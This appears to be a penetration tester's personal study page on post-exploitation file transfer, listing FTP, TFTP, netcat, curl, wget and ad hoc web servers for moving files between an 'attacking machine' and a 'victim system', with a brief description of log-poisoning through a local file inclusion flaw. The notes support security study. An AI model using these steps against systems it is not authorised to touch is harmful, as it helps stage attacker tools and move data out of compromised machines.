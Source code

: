 ```yaml
---
description: >-
  I have a problem  with remembering information that is very specific. So I
  have created a list of file transfer methods. I have not made any distinction
  of either windows or Linux.
---
```


# 6. File Transfer

Link : [https://burmat.gitbook.io/security/hacking/one-liners-and-dirty-scripts\#file-transfers](https://burmat.gitbook.io/security/hacking/one-liners-and-dirty-scripts#file-transfers)

Link : [https://www.hackingarticles.in/compressive-guide-on-file-transfer-post-exploitation/](https://www.hackingarticles.in/compressive-guide-on-file-transfer-post-exploitation/)

## Methods of file transfer

* **Non-interactive Shells.**
  * once it is executed, it does not require more input from the user in order to complete.
  * Once the command is executed, the shell automatically ends the connection.
* **Interactive Shells.**
  * remember how we used to interact SMTP server using command line.
    * we had to specify subject, email address, body, etc for mail.
    * Once we have sent the mail successfully we type "bye" to exit the SMTP connection.
  * Hence, to close the connection here we have to give a keyword which tells the server to terminate the connection.
* **Using Scripting languages.**
  * \(script\) like using VBscripts, a simple HTTP downloader using VBScript. On the server end we just need to serve file on our web server.
  * \(script\) like using Powershell, a simple HTTP downloader using powershell.
  * \(executable\) like using debug.exe to create a code a simple downloader. Compiling the code using debug.exe. Then running this executable to download the file to victim system.
* **Using logs method.**
  * Remember how all services running in victim system has a log file which tells us the timeline and the different activities that service has performed.
  * Similarly, if we have port open for that service, so the attacker could query the port. Similarly lets say the attacker queried port 80.
  * Then he needs to send some text which the server understands to get a valid response. 
  * But if user sends malicious code script. As it is an invalid request the script will not be executed, but still the complete script message is present in web server log files.
  * So if the website is vulnerable to LFI vulnerability, we could give path of web-server log files in this, and in this way our malicious code will be executed.

![Interactive Shell](../.gitbook/assets/image%20%2885%29.png)

![Non-Interactive Shell](../.gitbook/assets/image%20%2875%29.png)

## List of different ways for transferring a file

1. File Transfer protocols
   1. FTP
   2. SFTP
   3. TFTP
   4. SCP
2. Using HTTP Protocol
3. Using file download method
   1. BITSAdmin \(windows, client only\)
   2. PowerShell \(windows, client only\)
   3. VBS HTTP
   4. Perl HTTP
   5. CERTUTIL
   6. base64
   7. curl \(client only\)
   8. wget \(client only\)
4. Tools
   1. HFS tool - file transfer across different platforms.
   2. Using Meterpreter
5. Using PHP file server

## Using FTP

### FTP server side

*  We first need to create a FTP server on our attacking machine.
* Then we need to copy the respective file to be sent to the victim system on the root folder of the ftp server.
* We then need to create a user using which we will transfer the files.

### FTP Client side

*  There are two method to use ftp client to download files, first is the default interactive shell. Another is we try to make this interactive shell non interactive by creating a text file with all the inputs written in it. The ftp client could then use the file directly instead of interactive inputs from user.

## Using TFTP

{% tabs %}
{% tab title="Linux TFTP Server" %}
```text
mkdir /tftp
atftpd --daemon --port 69 /tftp
```
{% endtab %}

{% tab title="Windows TFTP Client" %}
```text
tftp -i 192.168.1.1 get file.txt #where 192.168.1.1 is the IP address of the TFTP server
```
{% endtab %}
{% endtabs %}

## Using Netcat

It is a simple netcat file transfer command. The connection will not end after transfer, we need to manually close the listner connection.

{% tabs %}
{% tab title="Sender side" %}
```text
nc 172.18.39.103 5000 < file.txt
```
{% endtab %}

{% tab title="Receiver side" %}
```text
nc -lvp 5000 > file.txt
```
{% endtab %}
{% endtabs %}

## Using file Download method

To transfer file using Download method, first we need to **set up a web server**.

{% tabs %}
{% tab title="python" %}
```text
python -m SimpleHTTPServer 8000
```
{% endtab %}

{% tab title="apache2" %}
```text
service apache2 start
cp file.txt /var/www/html/
```
{% endtab %}
{% endtabs %}

### Using curl

{% tabs %}
{% tab title="curl file transfer method" %}
```text
curl -O http://172.18.39.103/file.txt
```
{% endtab %}
{% endtabs %}

### Using wget

{% tabs %}
{% tab title="wget file transfer method" %}
```text
wget http://172.18.39.103/file.txt
```
{% endtab %}
{% endtabs %}

## Using PHP file server

{% tabs %}
{% tab title="Server side" %}
```text
php -S 0.0.0.0:80
```
{% endtab %}

{% tab title="Client side" %}
> You could use any file download method to download file.
{% endtab %}
{% endtabs %}

![](../.gitbook/assets/image-13.png)

![](../.gitbook/assets/image-39.png)

